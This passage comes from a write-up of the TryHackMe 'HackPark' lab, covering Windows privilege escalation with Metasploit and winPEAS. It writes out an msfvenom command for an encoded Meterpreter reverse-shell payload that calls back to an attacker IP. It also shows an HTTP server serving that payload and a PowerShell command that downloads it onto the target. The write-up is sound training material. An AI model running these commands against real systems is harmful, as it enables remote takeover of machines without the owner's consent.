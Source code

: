 ![initial reverse shell exploit](hackpark-revshell-exploit.webp){: width="700"
height="400" }
_Reverse shell established and `whoami` command executed_

Now we can hold our head up high and move on to Task 4 and 5.

## Task 4 and 5 - Windows Privilege Escalation

### Metasploit and winPEAS

This room is quite different in that Task 4 and Task 5 are pretty much the same
task just using different methods. Task 4 is very much Metasploit focused and
has the Metasploit framework suggest vulnerabilities to exploit; whereas Task 5
is a bit more hands on and uses
[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat) to identify vulnerabilities. For the
sake of brevity I shall focus on using Metasploit to establish a Meterpreter
whilst using winPEAS to find the vulnerable services to be exploited.

> I initially used the winPEASx64.exe files to find the vulnerabilities and it
> wasn't until the final question that I noticed I could not find the answer. It
> turns out that, in this case at least, winPEAS.bat provides us with a bit more
> detail and only then can we answer the final question. Use the .bat file on
> this machine.
> {: .prompt-tip }

### Msfvenom

We currently only have a weak shell connection with many limitations. We can use
`msfvenom` to create a payload, use a simple http server to serve the payload
and use the current weak shell to get the payload on to the target machine. The
process goes something like this:

- Crate the payload with msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.121.104 LPORT=4446 -e x86/shikata_ga_nai -f exe -o reverse.exe
```

{: .nolineno }

- Serve the file using a simple http server:

```bash
python3 -m http.server 80
```

{: .nolineno }

- Use the current shell to download the payload, reverse.exe:

```shell
powershell -c wget "http://10.11.121.104/reverse.exe" -outfile "reverse.exe"
```
